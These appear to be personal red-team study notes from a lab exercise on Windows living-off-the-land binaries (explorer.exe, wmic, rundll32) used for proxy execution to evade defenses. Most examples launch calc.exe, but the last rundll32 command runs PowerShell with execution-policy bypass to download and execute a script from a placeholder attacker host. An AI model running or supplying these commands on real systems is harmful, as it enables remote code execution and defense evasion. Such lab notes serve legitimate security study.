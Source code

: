 ## Table of Contents

- [**Signed Binary Proxy Execution** or **Indirect Command Execution**](#**Signed\Binary Proxy Execution** or **Indirect\Command\Execution**)
          - [To creata a chile process of explorer.exe as (parent). Execute the following:](#To\creata\a\chile\process\of\explorer.exe\as\(parent).\Execute\the\following:)
- [WMIC #windows #WMIC](#wmic\#windows\#wmic)
- [Rundll32 #rundll32 #windows #LoL #bypass #execution](#rundll32\#rundll32\#windows\#lol\#bypass\#execution)

#payload
#exiltrate 
#execution
#bypass
#iex
#LoL
#LivingOffTheLand 
#windows 
#WMIC 
### **Signed Binary Proxy Execution** or **Indirect Command Execution**
	Attacker leverages other system tools to spawn payloads to evade defensive controls
The explorer.exe binary is located at:  

- C:\Windows\explorer.exe
###### To creata a chile process of explorer.exe as (parent). Execute the following:
```powershell
C:\Users\Autist> explorer.exe /root,"C:\Windows\System32\calc.exe"
```
	calc pop gg get fucked #1337




# WMIC #windows #WMIC
	Command line util that manages windows components

The MITRE ATT&CK framework refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))

Command Prompt

```powershell
C:\Users\thm> . . . \
wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};
C:\Users\thm>
```

The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.


# Rundll32 #rundll32 #windows #LoL #bypass #execution 

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

Located at:
```powershell
C:\Windows\System32\rundll32.exe for 32-bit Version
C:\Windows\SysWOW64\rundll32.exe for 64-bit Version
```

Ex:
```powershell
C:\Users\thm> . . . \
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
\
```
	Uses embedded Javascript componenet eval() to execute the calc.exe binary

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.

Command Prompt

```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```



















